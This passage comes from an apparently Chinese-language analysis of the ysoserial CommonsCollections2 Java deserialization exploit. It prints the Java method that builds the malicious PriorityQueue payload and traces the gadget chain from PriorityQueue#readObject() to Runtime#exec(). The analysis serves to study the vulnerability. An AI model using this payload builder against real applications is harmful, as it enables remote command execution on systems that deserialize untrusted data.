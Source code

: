 又由`CommonsCollections2#getObject()`方法可知，返回的是`PriorityQueue`类型，即payload为`PriorityQueue`对象序列化后的，故栈回溯到`PriorityQueue#readObject()`方法即可。

```java
public Queue<Object> getObject(final String command) throws Exception {
  final Object templates = Gadgets.createTemplatesImpl(command);
  // mock method name until armed
  final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
  
  // create queue with numbers and basic comparator
  final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
  // stub data for replacement later
  queue.add(1);
  queue.add(1);
  
  // switch method called by comparator
  Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
  
  // switch contents of queue
  final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
  queueArray[0] = templates;
  queueArray[1] = 1;
  
  return queue;
}
```

通过上图所示的函数调用堆栈，结合`CommonsCollections2#getObject()`方法，可以初步得到`CommonsCollections2`的利用链如下：
```
PriorityQueue#readObject()
  PriorityQueue#heapify()
    PriorityQueue#siftdown()
      PriorityQueue#siftDownUsingComparator()
        TransformingComparator#compare()
          InvokerTransformer#transform()
            Method#invoke() //即: TemplatesImpl#newTransformer()
              TemplatesImpl#getTransletInstance()
                _class[_transletIndex].newInstance() //???
                  Runtime#exec()
```
